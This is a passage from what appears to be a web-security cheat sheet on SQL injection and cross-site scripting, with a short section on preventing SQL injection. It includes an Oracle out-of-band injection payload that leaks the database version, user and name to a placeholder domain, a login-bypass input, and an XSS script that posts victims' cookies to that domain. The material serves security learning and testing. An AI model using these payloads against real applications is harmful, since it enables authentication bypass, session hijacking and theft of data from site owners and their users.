 		
   *  MYSQL
	   			=> Check for the LOAD\_FILE, sys\_eval, http\_get, .. functions
	   
	* ORACLE
		```sql
		select dbms_ldap.init((select version from v$instance)||'.'||(select user from 		dual)||'.'||(select name from 	v$database)||'.'||'MYDOMAIN',80) from 	dual;
		```


- SQL injection vulnerability allowing login bypass
	* Very simple : `username'--`

#### How to prevent them 

If a SQL injection attack is successfully carried out, the damage could be expensive in terms of resources and customer trust. That is why detecting this type of attack in a timely manner is important. Web application firewalls (WAF) are the most common tool used to filter out SQLi attacks. WAFs are based on a library of updated attack signatures and can be configured to flag malicious SQL queries.

In order to prevent a SQL injection attack from occurring in the first place, developers can follow these practices:

-   Avoid SQL statements that allow user input, choose prepared statements and parameterized queries instead.
-   Perform input validation, or sanitization, for user-provided arguments.
-   Do not leave sensitive data in plaintext format, or use encryption.
-   Limit database permissions, privileges and capabilities to the bare minimum.
-   Keep databases updated on security patches.
-   Routinely test the security measures of applications that rely on databases.
-   Remove the display of database error messages to the users.


## Cross-site scripting

Cross-site scripting is used to inject malicious javascript code to user browser. This attack can lead to a total control of the application in use. More details and specific stuff can be found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

#### Basics


- Exploiting cross-site scripting to steal cookies

	This part represent the principal use of XSS. Web apps usually use cookies to save and remember sessions. In that way, this attack get the cookie in question and send it back to your own domain so you can easily capture it. 
	
	There is comon security system used to avoid this attack:
	-   The victim might not be logged in.
	-   Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
	-   Sessions might be locked to additional factors like the user's IP address.
	-   The session might time out before you're able to hijack it.
	
	Here is an example of that type of XSS:
	```javascript 
	<script> fetch('https://MYDOMAIN', {  method: 'POST',  mode: 'no-cors',  body:document.cookie  });  </script>
	```
